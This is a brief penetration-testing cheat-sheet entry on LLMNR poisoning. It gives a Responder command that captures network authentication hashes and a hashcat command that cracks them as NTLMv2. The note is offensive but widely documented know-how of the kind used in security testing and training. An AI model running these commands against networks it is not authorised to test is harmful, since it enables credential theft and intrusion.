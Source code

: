 # LLMNR Poisoning

```
sudo responder -I <interface> -dwP
# crack hash
hashcat -m 5600 <hash.txt> <wordlist>
```
